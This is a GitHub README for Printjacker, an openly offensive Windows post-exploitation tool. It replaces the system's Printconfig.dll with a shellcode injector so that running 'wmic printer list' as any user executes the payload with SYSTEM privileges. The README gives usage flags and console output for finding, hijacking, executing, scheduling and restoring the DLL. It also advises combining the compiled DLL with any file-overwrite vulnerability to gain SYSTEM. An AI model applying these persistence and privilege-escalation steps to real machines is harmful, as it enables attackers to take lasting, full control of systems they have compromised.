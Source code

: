 # printjacker-dev

Printjacker is a post-exploitation tool that creates a persistence mechanism by overwriting *Printconfig.dll* with a shellcode injector. The persistence mechanism can be invoked via executing `wmic printer list` command with any user. The shellcode will be executed with **SYSTEM** privileges. Details: [POST.md](POST.md)

![flow](images/flow.png)

## Usage
- Change the shellcode in **dllmain.cpp**
- Compile Printjacker with VS2019 (tested). New *printconfig.dll* will be compiled and added to resources of *Printjacker.exe*.
- Execute with Admin privileges.

```
.\printjacker.exe [-find] | [-hijack] | [-execute] | [-schedule] | [-restore]
    -find     : Find the directory of Printconfig.dll
    -hijack   : Overwrite Printconfig.dll with shellcode injector and copy original to Printconfig_orig.dll
    -execute  : Hijack Printconfig.dll and execute "wmic printer list" as the current user
    -schedule : Hijack printconfig.dll and schedule "wmic printer list"
    -restore  : Restore Printconfig.dll to original
```

- Hijack *Printconfig.dll* and execute the payload
```
.\printjacker.exe -execute
# Printjacker - Hijack Printconfig.dll
# Author: millers-crossing
-------------------------------------------------
[*] PrintConfig.dll is found: c:\windows\system32\DriverStore\FileRepository\prnms003.inf_amd64_9d6cd193d2dd61fd\Amd64
...
...
[+] Resource is found. Trying to modify the target file...
[+] Original Dll is copied to Princonfig_orig.dll
[+] Printconfig.dll is successfully modified!
[*] Working in Execute mode
[*] Trying to execute payload by using "wmic printer list"...
...
```

- Restore the original *printconfig.dll* 
```
.\Printjacker.exe -restore
# Printjacker - Hijack Printconfig.dll
# Author: millers-crossing
-------------------------------------------------
[*] PrintConfig.dll is found: c:\windows\system32\DriverStore\FileRepository\prnms003.inf_amd64_9d6cd193d2dd61fd\Amd64
[+] Printconfig.dll is restored from Printconfig_orig.dll
```

- If you have only file overwrite privilege without command execution, you can still use compiled *printconfig.dll* to gain SYSTEM privileges. 
```
.\printjacker.exe -find
# Printjacker - Hijack Printconfig.dll
# Author: millers-crossing
-------------------------------------------------
[*] PrintConfig.dll is found: c:\windows\system32\DriverStore\FileRepository\prnms003.inf_amd64_9d6cd193d2dd61fd\Amd64
```
- Overwrite the original printconfig.dll with your favourite file overwrite vulnerability, then execute `wmic printer list` with any user.

## References
Thanks to great works by @SandboxBear, @tiraniddo, @aionescu, @yarden_shafir, @decoder_it, @spotheplanet ...

- https://decoder.cloud/2019/11/13/from-arbitrary-file-overwrite-to-system/ 
- https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html
- https://github.com/ionescu007/faxhell/blob/master/ualapi/dllmain.c
- https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection

## TODO
- Generate pipename from UUID
- Compatibility for x86
